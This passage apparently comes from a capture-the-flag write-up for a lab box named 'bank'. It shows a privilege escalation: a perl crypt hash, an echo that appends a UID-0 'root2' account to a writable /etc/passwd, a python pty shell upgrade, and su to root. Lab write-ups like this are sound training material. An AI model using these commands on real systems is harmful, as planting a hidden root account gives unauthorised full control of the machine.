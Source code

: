 ```bash
$ perl -le 'print crypt("foo", "aa")'

aaKNIEDOaueR6
``` 

The parameter `foo` is the password we want to encrypt, while `aa` is the salt. Then, we can append a line to the end of the `/etc/passwd` with the following command:

```bash
$ echo root2:aaKNIEDOaueR6:0:0:root:/root:/bin/bash >> /etc/passwd
```

Note that we modified the username to be `root2`, so that we can use the username/password combination `root2`/`foo` to log in with User ID = 0.

Before being able to use the command `su` and log in as `root2`, we need to [upgrade our shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/). In this case, python is installed on the server, so we can run:

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'

www-data@bank:/$
```

The prompt changes and we can see the name of the user and the hostname. Now, we can log in as root2:

```bash
www-data@bank:/$ su root2

su root2
Password: foo

root@bank:/#
```

Now that we have gained root privileges, we can see the content of the file `/root/root.txt`!




